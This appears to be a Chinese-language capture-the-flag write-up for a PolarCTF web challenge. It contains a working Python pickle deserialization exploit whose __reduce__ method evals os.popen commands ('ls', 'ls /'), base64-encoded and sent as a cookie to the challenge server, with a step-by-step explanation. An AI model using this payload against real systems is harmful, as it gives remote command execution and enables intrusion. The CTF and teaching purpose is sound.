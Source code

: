 ```python
import requests
import pickle
import base64


class Exp(object):
    def __reduce__(self):
        # 利用os.popen查询
        a = '__import__("os").popen("ls").read()'
        return eval, (a,)  # 利用os.popen查询


e = Exp()
s = pickle.dumps(e)  # 将获取的对象序列化
print(s)
user = base64.b64encode(s).decode()  # 将序列化的对象使用base64加密
print(user)  # 输出加密后的序列化对象

response = requests.get("http://3dfa7d8f-8a8f-4417-83d0-a141d5a445f4.www.polarctf.com:8090/", cookies=dict(
    user=base64.b64encode(s).decode()
))
print(response.content)

```

具体思路就是：

导入requests、pickle和base64模块。
定义了一个名为Exp的类。
在Exp类中，定义了一个名为`__reduce__`的特殊方法，用于在对象被序列化时返回对象的还原方法。
在`__reduce__`方法中，使用os.popen查询文件内容。
创建一个Exp对象e。
使用pickle.dumps将对象e序列化为字符串s。
打印序列化后的字符串s。
使用base64.b64encode将序列化后的字符串s进行base64加密，并将结果解码为字符串user。
打印加密后的字符串user。
使用requests.get发送一个GET请求到指定的URL，并将加密后的字符串user作为cookies参数传递。
打印响应的内容。

先使用os.popen('ls')查看文件目录，发现本级目录下没有flag文件

![image-20240222151303751](image/image-20240222151303751.png)

查看一下根目录os.popen('ls /')

![image-20240222151319262](image/image-20240222151319262.png)
